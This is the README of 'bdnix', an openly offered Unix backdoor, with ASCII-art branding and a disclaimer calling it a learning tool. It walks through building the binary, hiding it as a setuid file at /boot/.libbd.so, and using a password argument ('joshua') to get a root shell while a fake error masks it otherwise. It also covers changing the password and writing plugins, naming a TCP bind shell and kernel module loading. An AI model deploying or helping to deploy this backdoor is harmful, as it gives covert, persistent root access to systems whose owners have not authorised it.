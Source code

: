  <pre>
      ___           ___           ___                       ___     
     /\  \         /\  \         /\__\          ___        |\__\    
    /::\  \       /::\  \       /::|  |        /\  \       |:|  |   
   /:/\:\  \     /:/\:\  \     /:|:|  |        \:\  \      |:|  |   
  /::\~\:\__\   /:/  \:\__\   /:/|:|  |__      /::\__\     |:|__|__ 
 /:/\:\ \:|__| /:/__/ \:|__| /:/ |:| /\__\  __/:/\/__/ ____/::::\__\
 \:\~\:\/:/  / \:\  \ /:/  / \/__|:|/:/  / /\/:/  /    \::::/~~/~   
  \:\ \::/  /   \:\  /:/  /      |:/:/  /  \::/__/      ~~|:|~~|    
   \:\/:/  /     \:\/:/  /       |::/  /    \:\__\        |:|  |    
    \::/__/       \::/__/        /:/  /      \/__/        |:|  |    
     ~~            ~~            \/__/                     \|__|    
 </pre>

<p>Trivial userspace backdoor for Unix</p>
</p>Emanuele Paiano - nixw0rm@gmail.com</p>

<h6>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!  </h6>                         

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and move to bdnix folder
  <pre>
   # cd /path/bdnix
   </pre>
2) From root run 'make' to build binary file
  <pre>
   # make
   </pre>
3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,
<pre>
   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
   </pre>       
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua argument to enable backdoor
<pre>
   $ /boot/.libbd.so joshua /bin/sh
   #

   You can see '#': you are root! :)
   </pre>

6) Running without joshua password, you can read a (fake) error:
<pre>
/bin/sh: cannot execute binary file
</pre>

---------------------
 CUSTOMIZE PASSWORD
---------------------

Open settings.h and replace default password "joshua"
<pre><code>
#define ARG1 "joshua"
</code></pre>
with "chips"
<pre><code>
#define ARG1 "chips"
</code></pre>
Now recompile backdoor with "make" and test it with new password:
<pre><code>
$ /boot/.libbd.so chips /bin/sh
#
</code></pre>
it works! :)


-----------------
 ENABLE PLUGINS
-----------------
Plugins are .h file in plugins/ folder. Plugins permit to add code portions and
extend bdnix feature (i.e. bind shell on TCP port, load kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:
<pre><code>
/* PLUGINS */

/* enable rootshell */
#define SHELL 1
</code></pre>       
2) Set 1 to enable, or 0 to disable code.

Example: If you have rootshell disabled and myplugin enabled:
<pre><code>
/* enable rootshell */
#define SHELL 0

/* my plugin */
#define MYPLUGIN 1
</code></pre>    
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
they will run in sequential mode. 

For adding or writing custom plugin, read next paragraph.


-----------------------
 WRITE A CUSTOM PLUGIN
-----------------------
1) If you want write your plugin, you should create .h file into plugin using next template:
<pre><code>
int PLUGIN_NAME_init()
{
  //code plugin
}
</code></pre>
and replace PLUGIN_NAME with your plugin's name and write your code between {} in function.  

2) Open bdcode.c and find this code portion into main():
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
</code></pre>
   and add some lines code:
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
 #if PLUGIN_NAME == 1
   PLUGIN_NAME_init();
 #endif
</code></pre>
 don't forget to remove PLUGIN_NAME with your plugin's name.

3) Before main(), add these lines:
<pre><code>
#if PLUGIN_NAME == 1
#include "plugin/PLUGIN_NAME.h"
#endif
</code></pre>

and remove PLUGIN_NAME with your plugin's name.

TIPS: you can edit RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms.
